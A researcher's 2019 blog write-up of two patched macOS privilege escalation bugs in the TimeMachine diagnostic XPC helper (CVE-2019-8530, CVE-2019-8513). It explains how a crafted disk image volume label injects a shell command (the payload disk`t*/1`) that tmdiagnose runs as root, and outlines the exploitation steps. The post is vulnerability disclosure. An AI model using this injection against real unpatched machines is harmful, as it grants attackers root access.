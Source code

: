 ```yaml
---
layout:	post
title:	"Rootpipe Reborn (Part I): TimeMachine Command Injection"
date:	2019-04-13
---
```


macOS Mojave 10.14.4 has patched two LPE flaws I reported:

<https://support.apple.com/en-us/HT209600>

They are both userspace XPC logic bugs, simple and reliable to get root privilege escalation, just like the [Rootpipe](https://www.slideshare.net/Synack/stick-that-in-your-rootpipe-smoke-it). This writeup is for the command injection in TimeMachine diagnose extension, which affects 10.12.x-10.14.3.

**Since this exploit is easy to understand and 100% reliable, please upgrade to 10.14.4 ASAP.**

This talk revealed some very interesting LPE bugs found in diagnostic tool of the system: [$hell on Earth: From Browser to System Compromise — Black Hat](https://www.blackhat.com/docs/us-16/materials/us-16-Molinyawe-Shell-On-Earth-From-Browser-To-System-Compromise-wp.pdf)

So I started looking at these services:

> launchctl dumpstate | grep diagnosticextensions

![](/img/diagext.png)

Functionalities of these helpers are similar. Let's take a closer look at `timemachine.helper`. The interface is extremely simple:

```objectivec
➜ ~ r2 /System/Library/PrivateFrameworks/DiagnosticExtensions.framework/PlugIns/osx-timemachine.appex/Contents/XPCServices/timemachinehelper  
 — You crackme up!  
[0x100001830]> aaa  
[x] Analyze all flags starting with sym. and entry0 (aa)  
[x] Analyze function calls (aac)  
[x] Analyze len bytes of instructions for references (aar)  
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)  
[x] Type matching analysis for all functions (afta)  
[x] Use -AA or aaaa to perform additional experimental analysis.  
[0x100001830]> icc  
@interface HelperDelegate :  
{  
}  
- (char) listener:shouldAcceptNewConnection:  
- (void) runDiagnosticWithDestinationDir:replyURL:  
@end
```

It simply takes an `NSURL` as a destination directory to run the command `/usr/bin/tmdiagnose -r -w -f` on it, then copies the file that matches a regular expression to the destination parameter.

![](/img/26VFI8kkb9ORKZL8r8BRGw.png)

While it doesn't perform any check on the destination, you can put random garbage (the diagnostic logs) to any existing directory without rootless protection. The other helpers have the similar problem. Apple patched this flaw as CVE-2019-8530:

> XPC
> 
> Available for: iPhone 5s and later, iPad Air and later and iPod touch 6th generation
>
> Impact: A malicious application may be able to overwrite arbitrary files
>
> Description: This issue was addressed with improved checks
>
> CVE-2019-8530: CodeColorist of Ant-Financial Light-Year Labs

It used to be exploitable combined with a sudo design flaw.

![](/img/pnry43E5sBN76OHsiGZotw.png)

> Sudo supports a feature where the user does not need to enter the password again for a few minutes after typing the password (and being successfully authenticated). The check was based on the modified time of the /var/db/sudo/{USER_NAME} directory. By setting the SubmitToLocalFolder value to be /var/db/sudo/{USER_NAME} and triggering the vulnerability, it is possible to execute sudo to gain root privileges.This bug can modify the timestamp of the directory by writing into it. Since sudo has been patched long ago, it's now pointless.

But what I want is a root shell!

The flaw resides in thetmdiagnose binary, which is not too hard to reverse. Its implementation is just some external shell commands wrapped in NSTask calls and the terminal output is honest:

> 2018–06–24 18:03:46.131 tmdiagnose[15529:a03] Executing `/usr/sbin/spindump -notarget 15 -file /private/var/tmp/cc@ant.tmdiagnostic/system_state_18.03.46/spindump.txt`  
> 2018–06–24 18:03:48.206 tmdiagnose[15529:1d03] Executing `/usr/bin/fs_usage -w -t 10 -e tmdiagnose`  
> 2018–06–24 18:04:10.392 tmdiagnose[15529:4d03] Executing `/bin/ps auxh`  
> 2018–06–24 18:04:10.652 tmdiagnose[15529:4d03] Executing `/usr/bin/top -l 10`  
> 2018–06–24 18:04:20.631 tmdiagnose[15529:5203] Executing `/usr/bin/powermetrics -i 1000 -n 10 — show-all`  
> 2018–06–24 18:04:31.227 tmdiagnose[15529:a03] Executing `/usr/bin/sample -file /private/var/tmp/cc@ant.tmdiagnostic/samples/backupd.txt backupd 5`  
> 2018–06–24 18:04:36.915 tmdiagnose[15529:a03] Executing `/usr/bin/sample -file /private/var/tmp/cc@ant.tmdiagnostic/samples/Finder.txt Finder 5`  
> 2018–06–24 18:04:42.351 tmdiagnose[15529:1f03] Executing `/bin/ls -la /Volumes/`  
> 2018–06–24 18:04:42.418 tmdiagnose[15529:1f03] Executing `/bin/df -H`  
> 2018–06–24 18:04:42.486 tmdiagnose[15529:1f03] Executing `/sbin/mount`  
> 2018–06–24 18:04:42.556 tmdiagnose[15529:1f03] Executing `/usr/sbin/diskutil list`  
> 2018–06–24 18:04:42.692 tmdiagnose[15529:1f03] Executing `/usr/sbin/diskutil cs list`  
> 2018–06–24 18:04:42.760 tmdiagnose[15529:1f03] Executing `/usr/sbin/diskutil apfs list`  
> 2018–06–24 18:04:42.956 tmdiagnose[15529:1f03] Executing `/bin/bash -c /usr/sbin/diskutil list | /usr/bin/awk '/disk/ {system("/usr/sbin/diskutil info "$NF); print "*********************"}'`
> 2018–06–24 18:06:54.482 mddiagnose[15688:1755714] Executing '/usr/local/bin/ddt mds'…  
> 2018–06–24 18:06:54.485 mddiagnose[15688:1755714] Executing '/usr/local/bin/ddt mds_stores'…  
> 2018–06–24 18:06:54.485 mddiagnose[15688:1755714] Executing '/usr/local/bin/ddt corespotlightd'…Did you see the bug here?

There are two exploitable bugs.

The executable `/usr/local/bin/ddt` does not exist on a fresh installed mac. The location is not protected by rootless, and the popular package manager [brew](https://brew.sh) explicitly set this directory to world writable. So on a macOS with brew installed (don't you?), a normal user process can overwrite this file and send a XPC message to execute it as root.

Alright, this senario is not the default configuration. What about a privileged command injection?

The `tmdiagnose` calls external commands via `NSTask` api, which is usually considered secure because it does not support shell operators unless you intentionally spawn a shell.

But look at this line, it lists every mounted volumes and find lines that match the pattern `/disk/`, then use the result to compose a new shell command!

```
➜ ~ strings /usr/bin/tmdiagnose | grep awk
# /usr/sbin/diskutil list | /usr/bin/awk '/disk/ {system("/usr/sbin/diskutil info "$NF); print "*********************"}'
```

Is the shell command really controllable?

```
➜ ~ /usr/sbin/diskutil list  
/dev/disk0 (internal, physical):  
 #: TYPE NAME SIZE IDENTIFIER  
 0: GUID_partition_scheme *251.0 GB disk0  
 1: EFI EFI 209.7 MB disk0s1  
 2: Apple_APFS Container disk1 250.8 GB disk0s2/dev/disk1 (synthesized):  
 #: TYPE NAME SIZE IDENTIFIER  
 0: APFS Container Scheme - +250.8 GB disk1  
 Physical Store disk0s2  
 1: APFS Volume Macintosh HD 231.8 GB disk1s1  
 2: APFS Volume Preboot 44.5 MB disk1s2  
 3: APFS Volume Recovery 517.0 MB disk1s3  
 4: APFS Volume VM 4.3 GB disk1s4
 ```
 
The only controllable column is the NAME. We can create a disk image (*.dmg) and customize its label by using `-volname` parameter of hdiutil. Mounting such an image does not require root privilege.

But the problem is, the `$NF` variable points to the last column, the IDENTIFIER (e.gdisk1s1), which is impossible to customize.

Just don't give up now. I used to play web challenges in CTFs years ago so I remember there's a trick call [CRLF injection](https://www.owasp.org/index.php/CRLF_Injection). So let's add a line break to the volume name: `hello\nworld`. Now hello is the last column.

![](/img/OJMCK5UKZ1gjBc1XKzNXCg.png)

Volume label also supports special chars like \n\`$, so we can inject the payload here. But whitespaces will be treated as splitter and break the payload. Besides, the label is limited to be shorter than 23 chars (including the NULL terminator), otherwise it'll be truncated:

![](/img/KndFoJPwQEFSlcNq5RpO3w.png)

So the label must:

* have the keyword disk
* have a line break
* use ` or $() to inject shell command
* be shorter than 22 chars
* have no more whitespace except the line break

Since we have bash support now, wildcard comes to the rescue. The working dir is `/`. Use `A*/1` or `t*/1` to execute `/Applications/1` or `/tmp/1`, making the payload as short as possible.

The final payload is disk`t*/1` to execute /tmp/1.

![](/img/pMqZJGJO0hRC2y_MoOnjQg.png)

> Time Machine
>
> Available for: macOS Sierra 10.12.6, macOS High Sierra 10.13.6, macOS Mojave 10.14.3
>
> Impact: A local user may be able to execute arbitrary shell commands
> 
> Description: This issue was addressed with improved checks.
> 
> CVE-2019-8513: CodeColorist of Ant-Financial LightYear Labs

This bug can be exploited in the following steps:

* Copy or make a symbolic link of the executable to make payload shorter
* Mount a crafted disk image with shell command payload as its label
* Send XPC request to timemachinehelper and wait

It takes about 2 min to trigger the root command because you have to wait for some time costing commands to finish. Anyways, it's freaking reliable.

![](/img/Pcc6QzYLjwpcicaZ4utWFQ.png)  
